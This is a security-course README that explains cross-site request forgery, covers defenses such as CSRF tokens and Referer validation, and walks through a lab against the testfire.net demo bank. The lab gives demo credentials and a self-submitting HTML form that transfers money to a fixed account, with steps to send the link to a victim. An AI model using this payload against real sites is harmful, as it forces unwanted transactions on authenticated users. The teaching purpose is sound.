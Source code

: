  

[![made-with-html](https://img.shields.io/badge/Made%20with-HTML-1f425f.svg)](https://html.com/)<space><space>  [![instructure-dr.404](https://img.shields.io/badge/Instructor-Dr.404-brightgreen)](https://www.facebook.com/htunaungkyawMPC)



 # Cross-Site Request Forgery (CSRF)

 - an attack that forces an end user `to execute unwanted actions` on a web application in which they’re `currently authenticated`. 

 - With a little help of `social engineering` (such as sending a link via email or chat), 

 - If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like `transferring funds`, c`hanging their password`, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application.

 [Reference-OWASP](https://owasp.org/www-community/attacks/csrf)

![CSRF](../photo/csrf.png)



# Common defenses against CSRF 

[Reference_portswigger.net](https://portswigger.net/web-security/csrf)

 The most common defenses are as follows:

- CSRF tokens - A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When attempting to perform a sensitive action, such as submitting a form, the client must include the correct CSRF token in the request. This makes it very difficult for an attacker to construct a valid request on behalf of the victim.

    
- Referer-based validation - Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. This is generally less effective than CSRF token validation.

![CSRF](../photo/anti_csrf.png)


# Lab Demo

## Lab Websit

`http://testfire.net/login.jsp`

## Lab Credentials

```
username = jsmith   
password = demo1234

```

## Example CSRF POC Form

```html
<h1>CSRF</h1>
<form id="form1" action="http://testfire.net/bank/doTransfer" method="POST">
    <input name="fromAccount" value="800002" />
    <input name="toAccount" value="4539082039396288" />
    <input name="transferAmount" value="3333" />
</form>
<script type="text/javascript">
document.getElementById('form1').submit();
</script>

```

## Labs Steps

1. Construct `CSRF Form` manaully or using burp suite  `engagement tools (csrf PoC`.

2. Run web server and send the link to victim

3. Exploit